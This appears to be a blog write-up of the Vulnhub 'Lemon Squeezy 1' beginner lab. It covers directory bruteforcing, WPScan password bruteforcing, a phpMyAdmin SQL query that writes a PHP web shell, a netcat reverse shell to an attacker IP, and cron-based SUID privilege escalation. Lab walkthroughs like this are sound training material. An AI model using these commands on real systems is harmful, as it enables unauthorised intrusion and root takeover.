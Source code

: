 +++
title = "Vulnhub: Lemon Squeezy 1"
date = "2021-04-13"
author = ""
authorTwitter = "" #do not include @
cover = ""
tags = ["Beginner", "Vulnhub", "OSCP Prep", "Directory Bruteforce", "ffuf", "WordPress", "WPScan", "PHPMyAdmin", "Cron"]
keywords = ["", ""]
description = ""
showFullContent = false
+++

<!--more-->
{{< image src="/img/lemonsqueezy1/lemon.png" alt="" position="center" style="border-radius: 8px;" >}}

| Difficulty | Release Date | Author |
| ---------- | ------------ | ------ |
| Beginner | 26 Apr 2020 | James Hay | 

# Summary

For this box we only get one port running a web server and we discover wordpress and phpmyadmin by directory bruteforcing. 
On the wordpress application we bruteforce credentials of the users discovered and then discover more credentials stored
in a draft post. With this new credentials we access phpmyadmin and write to a file using an sql query. This serves
as our initial foothold and we then escalate privileges by abusing a cron job running as root that executes a world writeable 
script.

# Reconnaissance

Nmap

```sh
Nmap scan report for 192.168.191.134
Host is up (0.00014s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 00:0C:29:FF:26:DE (VMware)
```
# Enumeration

## 80 (HTTP)

Visiting this page on the browser only serves the apache default page, confirming what nmap found in title.

After performing a directory bruteforce using ffuf we get the following directories:

```sh
ffuf -ic -c -u 'http://192.168.191.134/FUZZ' -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -t 50
```

{{< image src="/img/lemonsqueezy1/lemon-1.png" alt="" position="center" style="border-radius: 8px;" >}}

Checking the /wordpress directory, we see a basic wordpress site with not much information.

{{< image src="/img/lemonsqueezy1/lemon-2.png" alt="" position="center" style="border-radius: 8px;" >}}

Performing enumeration using wpscan, the only interesting information gathered is the usernames.

```sh
wpscan --url http://lemonsqueezy/wordpress -e ap,at,tt,cb,dbe,u -o wpscan.out --api-token
```

{{< image src="/img/lemonsqueezy1/lemon-3.png" alt="" position="center" style="border-radius: 8px;" >}}

Bruteforcing the credentials for each user, we discover the password of the orange user.

```sh
wpscan --url http://lemonsqueezy/wordpress -U orange -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt
```

{{< image src="/img/lemonsqueezy1/lemon-4.png" alt="" position="center" style="border-radius: 8px;" >}}

After logging into wordpress with the discovered credentials **orange:ginger**, we find another password in drafts.

{{< image src="/img/lemonsqueezy1/lemon-5.png" alt="" position="center" style="border-radius: 8px;" >}}

With this password, we are able to login to phpmyadmin as the orange user.

{{< image src="/img/lemonsqueezy1/lemon-6.png" alt="" position="center" style="border-radius: 8px;" >}}

Successful login:

{{< image src="/img/lemonsqueezy1/lemon-7.png" alt="" position="center" style="border-radius: 8px;" >}}

By logging in we can abuse this access by writing a file to disk that contains php by using an sql statement.

```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/wordpress/shell.php" 
```

{{< image src="/img/lemonsqueezy1/lemon-8.png" alt="" position="center" style="border-radius: 8px;" >}}

We can then verify that we have successful command execution, by running the whoami command.

{{< image src="/img/lemonsqueezy1/lemon-9.png" alt="" position="center" style="border-radius: 8px;" >}}

# Shell as www-data

Running the below curl command we are able to get a reverse shell:

```sh
curl "http://192.168.191.134/wordpress/shell.php?cmd=nc+-e+/bin/bash+192.168.191.1+9000+%26"
```

{{< image src="/img/lemonsqueezy1/lemon-10.png" alt="" position="center" style="border-radius: 8px;" >}}

After performing some manual local enumeration, we discover a cron job running as root. 

{{< image src="/img/lemonsqueezy1/lemon-11.png" alt="" position="center" style="border-radius: 8px;" >}}

The script being executed in the cron job is world writeable and the www-data user can write to it.

{{< image src="/img/lemonsqueezy1/lemon-12.png" alt="" position="center" style="border-radius: 8px;" >}}


# Shell as root

After changing the script to the below command we can create a bash binary with suid permissions.

```sh
#!/bin/bash
cp /bin/bash /suidbash
chmod u+s /suidbash
```

{{< image src="/img/lemonsqueezy1/lemon-13.png" alt="" position="center" style="border-radius: 8px;" >}}

Once the cron is executed we get the binary and can escalate to root shell and read root.txt.

```sh
./suidbash -p
```

{{< image src="/img/lemonsqueezy1/lemon-14.png" alt="" position="center" style="border-radius: 8px;" >}}

# Extras

 - It seems I forgot user.txt and it is in /var/www.

{{< image src="/img/lemonsqueezy1/lemon-15.png" alt="" position="center" style="border-radius: 8px;" >}}

- We could write to the wordpress folder from phpmyadmin because it was world-writeable.

{{< image src="/img/lemonsqueezy1/lemon-16.png" alt="" position="center" style="border-radius: 8px;" >}}

